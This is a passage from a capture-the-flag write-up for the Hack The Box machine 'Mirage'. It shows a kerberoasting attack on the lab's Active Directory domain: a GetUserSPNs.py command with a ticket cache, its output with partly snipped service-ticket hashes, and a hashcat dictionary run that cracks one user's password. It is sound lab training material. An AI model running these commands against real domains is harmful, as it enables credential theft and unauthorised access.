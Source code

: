             ManageCa                        : MIRAGE.HTB\Administrators
                                              MIRAGE.HTB\Domain Admins
                                              MIRAGE.HTB\Enterprise Admins
            ManageCertificates              : MIRAGE.HTB\Administrators
                                              MIRAGE.HTB\Domain Admins
                                              MIRAGE.HTB\Enterprise Admins
            Enroll                          : MIRAGE.HTB\Authenticated Users
    Certificate Templates                   : [!] Could not find any certificate templates


In this case we're just trying GetUserSPNs.py blindly to see if any users have an SPN set with which to kerberoast, and it works. However if we used some cypher queries in Bloodhound or just checked our identified users output, we would have seen `HTTP/exchange.mirage.htb` as an SPN for nathan which allows us to do this.


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./david.jjackson.ccache GetUserSPNs.py -request -usersfile users -target-domain $target -k -no-pass "mirage.htb/svc_mirage"
```

    /home/tokugero/ctf/htb/season8/week10-mirage/.venv/lib/python3.13/site-packages/impacket/version.py:10: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
      import pkg_resources
    Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
    
    [-] Principal: Dev_Account_A - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
    [-] Principal: Dev_Account_B - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
    [-] Principal: david.jjackson - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
    $krb5tgs$23$*nathan.aadam$MIRAGE.HTB$nathan.aadam*$ff8a04f07d5c26c4bf513489f4727aa8$16eae24e1<snip>>44c8be308d618d15f76e816cd37ac
    [-] Principal: mark.bbond - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
    [-] Principal: javier.mmarshall - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
    [-] Principal: svc_mirage - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
    $krb5tgs$18$Mirage-Service$MIRAGE.HTB$*Mirage-Service*$f854809b44cee0856b0e5d83$1cb00d8230dd66968e2<snip>>203fabbd20590fb1693c6c63cb00d3
    [-] Principal: administrator - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)


Running this against hashcat shows a new password: `NATHANADAMPASS`
```sh
 hashcat -m 13100 nathan.aadam.hash /nix/store/095gag0xj3zs6avrxrmn0996im9gzbyz-wordlists-collection/share/wordlists/rockyou.txt
hashcat (6.2.6) starting
...

Dictionary cache hit:
* Filename..: /nix/store/095gag0xj3zs6avrxrmn0996im9gzbyz-wordlists-collection/share/wordlists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$krb5tgs$23$*nathan.aadam$MIRAGE.HTB$nathan.aadam*$3b898bd15cdd182c6010156a286127d0$1c<snip>8e6151af5182247ef49d:<PASSWORDSNIPPED>
````
